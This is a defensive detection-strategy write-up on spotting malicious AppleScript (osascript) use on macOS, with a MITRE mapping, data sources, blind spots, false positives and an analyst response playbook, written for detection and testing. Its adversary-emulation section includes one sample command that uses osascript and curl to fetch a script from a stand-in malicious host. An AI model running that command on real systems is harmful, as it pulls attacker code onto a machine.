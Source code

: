 # Alerting & Detection Strategy: Detect Adversarial Use of AppleScript on macOS

## Goal
This technique aims to detect adversarial attempts to use AppleScript for executing malicious activities on macOS systems. Specifically, it focuses on identifying the unauthorized execution of scripts that can manipulate system processes or exfiltrate data.

## Categorization
- **MITRE ATT&CK Mapping:** T1059.002 - AppleScript
- **Tactic / Kill Chain Phases:** Execution
- **Platforms:** macOS
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1059/002)

## Strategy Abstract
The detection strategy leverages system logs and event monitoring to identify suspicious use of AppleScript. By analyzing patterns such as unexpected script execution, unusual command-line arguments, or scripts executed from unauthorized locations, the strategy aims to uncover potential malicious activities.

### Data Sources Utilized:
- **System Logs:** Monitor for entries related to `osascript` executions.
- **Application Logs:** Track applications launching AppleScripts.
- **User Activity Monitoring:** Detect anomalies in user behavior concerning script usage.

### Patterns Analyzed:
- Execution of scripts from non-standard directories.
- Scripts containing commands that modify system files or network configurations.
- Unusual timing or frequency of script execution.

## Technical Context
Adversaries exploit AppleScript due to its powerful automation capabilities and integration within macOS. It can be used to execute arbitrary commands, manipulate user interface elements, or automate complex workflows without raising immediate suspicion.

### Real-world Execution:
Attackers may deliver a malicious AppleScript via phishing emails or bundled with legitimate applications. Once executed, the script can perform actions like downloading additional payloads, modifying system settings, or exfiltrating sensitive data.

#### Adversary Emulation Details:
- **Sample Command:** `osascript -e 'do shell script "curl http://malicious-site.com/script.scpt"'`
- **Test Scenario:** Deploy a benign AppleScript that mimics typical malicious behavior to validate detection capabilities.

## Blind Spots and Assumptions
- **Blind Spots:**
  - Encrypted or obfuscated scripts may evade pattern-based detection.
  - Scripts executed directly from the command line without logging may not be detected.

- **Assumptions:**
  - Users have standard permissions, limiting script execution to user-owned directories unless elevated privileges are compromised.
  - Monitoring tools have comprehensive log coverage of AppleScript executions.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate automation scripts used for administrative tasks.
- User-created scripts for personal productivity enhancements.
- Applications with built-in scripting capabilities executing standard operations.

## Priority
**Severity: Medium**

### Justification:
While the use of AppleScript can pose significant risks, especially if combined with other attack vectors, it is less commonly exploited compared to more direct methods. The medium priority reflects its potential impact when used in sophisticated attacks and the need for balanced monitoring to avoid excessive false positives.

## Validation (Adversary Emulation)
### Step-by-Step Instructions:
1. **Preparation:**
   - Ensure a controlled test environment with macOS.
   - Install necessary tools for logging and monitoring script executions.

2. **Script Creation:**
   ```applescript
   osascript -e 'do shell script "echo Hello, World!"'
   ```

3. **Execution:**
   - Run the script from an unauthorized location (e.g., `/tmp`).
   - Observe system and application logs for detection triggers.

4. **Analysis:**
   - Verify that the monitoring tools capture the execution event.
   - Adjust detection parameters if necessary to reduce false positives.

## Response
### Guidelines for Analysts:
1. **Initial Assessment:**
   - Confirm the legitimacy of the script source and intent.
   - Evaluate the scope of actions performed by the script.

2. **Containment:**
   - Isolate affected systems from the network to prevent further malicious activity.
   - Disable any unauthorized scripts or accounts used for execution.

3. **Investigation:**
   - Analyze logs to determine the origin and purpose of the AppleScript.
   - Check for additional indicators of compromise (IoCs) on the system.

4. **Remediation:**
   - Remove malicious scripts and restore affected files from backups.
   - Update security policies to prevent similar incidents in the future.

5. **Reporting:**
   - Document findings and share with relevant stakeholders.
   - Consider reporting to authorities if the activity is part of a larger campaign.

## Additional Resources
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- macOS Security Documentation

This report provides a comprehensive strategy for detecting adversarial use of AppleScript on macOS, balancing detection capabilities with operational realities.